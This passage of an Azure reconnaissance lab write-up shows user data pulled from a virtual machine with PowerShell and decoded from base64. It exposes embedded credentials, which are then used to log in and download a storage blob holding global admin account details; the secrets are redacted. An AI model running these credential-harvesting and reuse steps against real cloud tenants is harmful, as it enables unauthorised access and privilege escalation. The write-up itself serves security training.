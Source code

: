 With `Reader` access to a virtual machine, something that is worth checking is custom user data fields. `User data` is a set of scripts or other metadata that's inserted to a virtual machine at provision time. Although this field shouldn't contain credentials, the scripts often do.

Click on the VM, then `Settings -> Operating System -> User Data`. We see that an Azure CLI command and a comment with credentials.

![](intro-to-azure-recon-with-bloodhound-5.png)

The same can be done via Powershell Az Module
```
└─PS> Get-AzVM -ResourceGroupName "content-static-2" -Name "SECURITY-PC" -UserData                                                                                                                                                          


ResourceGroupName : content-static-2
Id                : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/content-static-2/providers/Microsoft.Compute/virtualMachines/SECURITY-PC
VmId              : 648c8a08-c90a-4a95-8922-4cbf28375bcb
Name              : SECURITY-PC
Type              : Microsoft.Compute/virtualMachines
Location          : eastus
LicenseType       : Windows_Client
Tags              : {}
HardwareProfile   : {VmSize}
NetworkProfile    : {NetworkInterfaces}
SecurityProfile   : {UefiSettings, SecurityType}
OSProfile         : {ComputerName, AdminUsername, WindowsConfiguration, Secrets, AllowExtensionOperations, RequireGuestProvisionSignal}
ProvisioningState : Succeeded
StorageProfile    : {ImageReference, OsDisk, DataDisks, DiskControllerType}
Identity          : {PrincipalId, TenantId, Type}
Zones             : {1}
UserData          : <REDACTED>
TimeCreated       : 10/31/2023 3:24:18 PM
Etag              : "5908"

```
```
└─$ echo "<REDACTED>" | base64 -d
# Credentials: User: security-user | Password: <REDACTED>
az storage blob download --account-name securityconfigs --container-name security-pc --name config-latest.xml --auth-mode login
```

Let's continue as `security-user` and see what the `config-latest.xml` file contains. And it seems to contain sensitive information
```
└─$ az login -u 'security-user@megabigtech.com' -p '<REDACTED>' 
```
```
└─$ az storage blob download --account-name securityconfigs --container-name security-pc --name config-latest.xml --auth-mode login
<?xml version="1.0" encoding="UTF-8"?>
<SecurityConfiguration>
    <!-- Resource Group Settings -->
    <ResourceGroup>
        <Name>MegaTechResourceGroup</Name>
        <Location>East US</Location>
        <Description>Primary resource group for Mega Big Tech security application.</Description>
    </ResourceGroup>
<SNIP>
    <!-- Global Admin Account Credentials -->
    <GlobalAdmin>
        <Username>ryan@megabigtech.com</Username>
```